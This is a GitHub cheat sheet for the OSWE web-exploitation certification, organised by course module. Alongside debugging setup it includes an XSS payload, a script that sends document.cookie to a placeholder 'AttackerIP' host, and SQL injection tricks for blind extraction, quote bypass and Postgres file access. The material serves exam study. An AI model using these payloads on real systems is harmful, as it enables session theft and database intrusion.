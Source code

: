 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module : Atmail (PHP):

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. Set cookie by web developer console<br>
    #javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("POST", url, true)<br>
    #xhr.send(data)<br>
    
6. XHR GET Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("GET", url, true)<br>
    #xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE (PHP) :<br>
 1. Enable MySQL DB logging<br>
    #nano /etc/mysql/my.cnf         // uncomment or add below line<br>
            #[mysqld]<br>
            #general_log_file = /var/log/mysql/mysql.log<br>
            #general_log = 1<br>
    #systemctl restart mysql        //Restart MySQL<br>
    #tail –f /var/log/mysql/mysql.log   //Access MySQL Log<br>
    
 2. Enable PHP verbose error<br>
    #nano /etc/php5/apache2/php.ini   //uncomment or add below line<br>
        #display_errors = On <br>
    #systemctl restart apache2     //Restart Apache<br>
    
3. Print statement in PHP<br>
    #echo "any message";<br>
    
4. Dump information about varaible<br>
    #var_dump($var);<br>
    
5. Serach for fiunction in code<br>
    #grep -rnw "function name(" ./ --color<br>
    
5. Check magic quote enable<br>
    #var_dump(get_magic_quotes_gpc());  /** for enable value is 1 **/<br>
    
6. MYSQL query without space<br>
    #mysql> select/**/1; <br>
    
7. Extract first character of MySql version in case of blind MySQL query<br>
    #mysql> select ascii(substring((select version()),1,1))=53;  /** use with "or" boolean **/<br>
    
8. Create ZIp file using Python2 <br>
    #!/usr/bin/python <br>
    #import zipfile <br>
    #from cStringIO import StringIO<br>

    #def build_zip():<br>
        #f = StringIO()<br>
        #z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)<br>
        #z.writestr('folder/file.txt', 'secret')<br>
        #z.close()<br>
        #zip = open('zip.zip','wb')<br>
        #print f.getvalue()<br>
        #zip.write(f.getvalue())<br>
        #zip.close()<br>
    
    #build_zip()<br>

Module : PHP Type Juggling Vulnerability : 
1.  Configure SMTP Server<br>
    #sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25 & /* & for run in background */<br>
    
Module : ManageEngine Application Manager AMUserResourcesSyncServlet SQL Injection & RCE : <br>
    #web.xml determine how URLs mapped<br>
    #Tool JD-GUI use to decompile java<br>
    #Find SQL injection vulnerability using below regular expression<br>
        ^.*?query.*?select.*?<br>
    #Enable postgres logging by uncommenting below line in postgresql.conf file<br>
        log_statement = 'all'<br>
    #postgre cli
        psql -U username -p 15432  /* p=port, /<br>
    # Alternative of single quote(') is duble doller sign($$)<br>
    #decode string in postgres<br>
        select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');<br>
    #Using CHR and String Concatenation<br>
        SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);<br>
    #Accessing the File System in postgres<b>
        COPY <table_name> from <file_name><br>
        COPY <table_name> to <file_name><br>
        
    

    
